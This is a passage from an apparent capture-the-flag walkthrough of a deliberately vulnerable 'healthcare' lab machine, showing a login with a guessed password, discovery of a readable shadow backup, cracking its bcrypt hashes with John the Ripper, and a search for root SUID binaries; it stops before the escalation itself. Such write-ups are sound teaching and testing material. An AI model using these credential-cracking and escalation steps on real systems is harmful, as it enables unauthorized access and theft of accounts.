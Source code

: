 As there is a user named `medical` and sqlmap found the password on the application, it was fair to try to log in as `medical` with the password `medical`:

~~~
bash-4.1$ su medical
su medical
Password: medical
~~~

To be noted that there is a readable copy of `shadow` under `/var/backups/`:

~~~
[medical@localhost backups]$ ls -la /var/backups/shadow
ls -la /var/backups/shadow
-rwxr--r-- 1 medical medical 1124 Jul 29 06:11 /var/backups/shadow*
~~~

Brute forcing the `shadow` file leads to disclosing the password for 2 accounts:

~~~
kali@kali:/data/healthcare/files$ /data/src/john/run/john shadow --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
skywalker        (almirant)
medical          (medical)
~~~

## Root SUID files

Searching for files owned by `root` with the SUID bit set reveals an interesting executable:

~~~
[medical@localhost ~]$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/usr/libexec/pt_chown
/usr/lib/ssh/ssh-keysign
/usr/lib/polkit-resolve-exe-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/chromium-browser/chrome-sandbox
/usr/lib/polkit-grant-helper-pam
/usr/sbin/fileshareset
/usr/sbin/traceroute6
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/bin/crontab
/usr/bin/pumount
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/wvdial
/usr/bin/pmount
/usr/bin/sperl5.10.1
/usr/bin/gpgsm
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpg
/usr/bin/healthcheck <---------------- interesting!
/usr/bin/Xwrapper
/usr/bin/ping6
/usr/bin/chsh
/lib/dbus-1/dbus-daemon-launch-helper
~~~